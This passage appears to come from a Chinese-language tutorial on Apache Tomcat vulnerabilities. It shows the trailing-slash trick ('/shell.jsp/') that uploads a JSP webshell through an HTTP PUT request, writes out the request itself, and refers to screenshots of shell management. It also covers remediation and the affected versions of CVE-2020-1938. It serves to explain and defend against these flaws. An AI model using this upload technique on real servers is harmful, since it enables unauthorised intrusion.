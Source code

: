 ![image-20200813131648712](/images/tomcat/image-20200813131648712.png)

由上图看到提示404，说明JspServlet负责处理所有JSP和JPSX类型的动态请求，不能够处理PUT方法类型的请求。会被过滤掉。

此时可以利用上面介绍的绕过方式

利用文件解析漏洞采用PUT方式上传jsp webshell文件。其中文件名设为/shell.jsp/。（如果文件名后缀是空格那么将会被tomcat给过滤掉。）

```
PUT /shell.jsp/ HTTP/1.1
Host: 192.168.3.49:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 5

shell
```

下图所示修改shell.jsp/即可上传成功

![image-20200813131744168](/images/tomcat/image-20200813131744168.png)

文件访问

![image-20200813133423171](/images/tomcat/image-20200813133423171.png)

shell管理

![image-20200813134428832](/images/tomcat/image-20200813134428832.png)

##### 漏洞修复

1、删除web.xml文件中readonly属性的值为true或直接删除

2、更新至官方最新

#### CVE-2020-1938

##### 漏洞描述

CVE-2020-1938是由于Apache Tomcat服务器存在文件包含漏洞，攻击者可利用该漏洞读取或包含 Tomcat 上所有 webapp 目录下的任意文件，如：webapp 配置文件或源代码等。

由于Tomcat默认开启的AJP服务（8009端口）存在一处文件包含缺陷，攻击者可构造恶意的请求包进行文件包含操作，进而读取受影响Tomcat服务器上的Web目录文件。

##### 影响范围

Apache Tomcat 6

Apache Tomcat 7 < 7.0.100

Apache Tomcat 8 < 8.5.51

Apache Tomcat 9 < 9.0.31
